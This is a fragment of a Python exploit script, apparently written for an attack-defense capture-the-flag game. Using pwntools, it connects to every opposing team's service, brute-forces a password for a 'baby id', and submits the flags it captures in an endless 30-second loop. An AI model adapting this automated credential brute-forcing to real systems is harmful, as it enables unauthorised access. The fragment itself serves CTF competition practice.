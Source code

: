 ```python

    for num_str in byte_map:
        try:
            p = remote(host_ip, 10003)

            menu_message = p.recvuntil(": ")

            p.sendline("2") # get_baby_name()

            baby_message = p.recvuntil(": ")

            p.sendline(flag_id.strip()) # baby id

            pass_message = p.recvuntil(": ")

            p.sendline(num_str) # password

            pass_resp = p.recvline().decode("ascii")

            if "Error" not in pass_resp: # got flag
                flag = pass_resp.split(":")[1].strip()
                flags.append(flag)
                print("byte found!")
                break

            p.close()

        except:
            pass

    return flags

if __name__ == "__main__":
    while True:
        print(f"--- Starting attack at: {time.ctime()} ---")
        for target in t.get_targets(3):  # iterate through all the target
            flag_id = target['flag_id']  # get their baby id
            host_ip = target['hostname'] # get their hostname
            try:
                flags = exp(host_ip, flag_id)
                print(flags)
                stat = t.submit_flag(flags)
                print(stat)
            except:
                pass
        print("--- Attack done. ---")
        time.sleep(30)
```
